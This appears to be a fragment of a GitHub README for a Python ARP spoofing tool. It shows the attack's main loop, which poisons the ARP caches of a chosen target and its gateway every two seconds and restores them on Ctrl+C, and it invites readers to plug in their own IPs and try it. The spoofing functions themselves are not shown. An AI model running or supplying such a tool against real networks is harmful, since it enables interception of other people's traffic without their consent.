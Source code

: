 ```python
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] Packet sent: " + str(sent_packets_count)),
        sys.stdout.flush()
        time.sleep(2)
except KeyboardInterrupt:
    print("[+] Detected CTRL+C ........Resetting ARP Table \n")
    restore(target_ip, gateway_ip)

```

> Set your own gateway ip and target ip : 
```python

target_ip= "target_ip"
gateway_ip = "gateway_ip"

```

Give a shot ! 

